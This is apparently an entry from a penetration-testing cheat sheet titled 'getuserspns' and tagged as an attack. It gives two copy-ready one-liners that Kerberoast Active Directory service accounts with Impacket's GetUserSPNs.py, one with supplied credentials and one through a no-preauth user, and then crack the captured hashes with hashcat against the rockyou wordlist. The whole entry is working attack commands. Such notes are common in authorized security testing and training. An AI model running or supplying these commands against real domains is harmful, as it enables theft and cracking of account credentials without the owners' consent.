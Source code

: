 # getuserspns
#plateform/linux #target/remote #cat/ATTACK

## Kerberoast
```
GetUserSPNs.py -request -outputfile hashes.kerberoast <domain>/<user>:<passwd>; hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```

## Kerberoast with no-preauth user
```
GetUserSPNs.py -request -no-preauth <no-preauth_user> -usersfile <usersfile|users.txt> -outputfile hashes.kerberoast <domain>/; hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```
